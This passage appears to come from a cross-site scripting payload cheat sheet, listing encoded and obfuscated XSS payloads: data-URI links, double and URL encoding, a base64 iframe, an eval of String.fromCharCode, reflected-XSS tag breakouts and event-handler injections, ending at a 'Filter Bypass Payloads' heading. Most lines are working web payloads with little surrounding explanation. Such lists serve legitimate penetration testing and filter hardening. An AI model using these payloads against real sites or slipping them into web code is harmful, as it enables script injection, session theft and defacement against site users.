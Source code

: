 ``<IMG SRC=`javascript:alert("XSS")`>`` 

#### Using Data URIs


`<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">Click here</a>` 

#### Double Encoding


`%253Cscript%253Ealert('XSS')%253C%252Fscript%253E` 

### Encrypted Payloads

#### Base64 Encoding with Execution


`<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4="></iframe>` 

#### Hex Encoding with Execution


`<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>` 

## Reflected XSS Payloads

Reflected XSS occurs when user-supplied data is immediately returned by a web application without proper validation or escaping. These payloads are often found in URL query parameters.

### Basic Payloads


`"><script>alert('XSS')</script>` 

`"><img src=x onerror=alert('XSS')>` 

`"><svg/onload=alert('XSS')>` 

### URL Encoded Payloads


`%3Cscript%3Ealert('XSS')%3C/script%3E` 

`%3Cimg%20src%3Dx%20onerror%3Dalert('XSS')%3E` 

`%3Csvg%2Fonload%3Dalert('XSS')%3E` 

### Event Handlers

`"><div onmouseover="alert('XSS')">Hover over me!</div>` 

`"><input type="text" value="XSS" onfocus="alert('XSS')">` 


`"><a href="#" onclick="alert('XSS')">Click me</a>` 

### Filter Bypass Payloads
